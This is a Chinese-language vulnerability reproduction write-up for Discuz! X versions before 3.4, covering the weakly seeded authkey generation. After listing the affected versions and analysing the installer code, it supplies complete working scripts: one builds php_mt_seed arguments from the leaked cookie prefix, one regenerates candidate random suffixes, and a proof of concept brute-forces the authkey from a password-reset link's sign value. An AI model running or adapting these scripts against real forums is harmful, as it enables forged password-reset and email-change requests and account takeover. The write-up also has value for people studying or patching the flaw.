 Discuz! X \< 3.4 authkey 算法的安全性漏洞
=========================================

一、漏洞简介
------------

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等...

二、漏洞影响
------------

php\>5.3+php-curl\<=7.54

-   Discuz\_X3.3\_SC\_GBK

-   Discuz\_X3.3\_SC\_UTF8

-   Discuz\_X3.3\_TC\_BIG5

-   Discuz\_X3.3\_TC\_UTF8

-   Discuz\_X3.2\_SC\_GBK

-   Discuz\_X3.2\_SC\_UTF8

-   Discuz\_X3.2\_TC\_BIG5

-   Discuz\_X3.2\_TC\_UTF8

-   Discuz\_X2.5\_SC\_GBK

-   Discuz\_X2.5\_SC\_UTF8

-   Discuz\_X2.5\_TC\_BIG5

-   Discuz\_X2.5\_TC\_UTF8

三、复现过程
------------

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId25.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId26.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

    $_config['cookie']['cookiepre'] = random(4).'_';

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId27.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php\_mt\_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

    # coding=utf-8
    w_len = 10
    result = ""
    str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
    length = len(str_list)
    for i in xrange(w_len):
        result+="0 "
        result+=str(length-1)
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    sstr = "sW7c"
    for i in sstr:
        result+=str(str_list.index(i))
        result+=" "
        result+=str(str_list.index(i))
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    print result

得到参数,使用php\_mt\_seed脚本

https://github.com/ianxtianxt/php-mt\_rand

    ./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }
    $fp = fopen('result.txt', 'rb');
    $fp2 = fopen('result2.txt', 'wb');
    while(!feof($fp)){
        $b = fgets($fp, 4096);
        if(preg_match("/seed = (\d)+/", $b, $matach)){
            $m = $matach[0];
        }else{
            continue;
        }
        // var_dump(substr($m,7));
        mt_srand(substr($m,7));
        fwrite($fp2, random(10)."\n");
    }
    fclose($fp);
    fclose($fp2);

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16\*\*6\*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php`
65行生成用于验证的sign值。

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId28.png)

跟随make\_getpws\_sign函数进入`/source/function/function_member.php`

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId29.png)

然后进入dsign函数，配合authkey生成结果

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId30.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
>
> 自行修改第7,8,13行代码

    # coding=utf-8
    import itertools
    import hashlib
    import time
    def dsign(authkey):
        url = "http://127.0.0.1/dz3.3/"
        idstring = "vnY6nW"
        uid = 2
        uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
        url_md5 = hashlib.md5(uurl+authkey)
        return url_md5.hexdigest()[:16]
    def main():
        sign = "af3b937d0132a06b"
        str_list = "0123456789abcdef"
        with open('result2.txt') as f:
            ranlist = [s[:-1] for s in f]
        s_list = sorted(set(ranlist), key=ranlist.index)
        r_list = itertools.product(str_list, repeat=6)
        print "[!] start running...."
        s_time = time.time()
        for j in r_list:
            for s in s_list:
                prefix = "".join(j)
                authkey = prefix + s
                # print dsign(authkey)
                if dsign(authkey) == sign:
                    print "[*] found used time: " + str(time.time() - s_time)
                    return "[*] authkey found: " + authkey
    print main()

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId32.png)

![](./.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId33.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
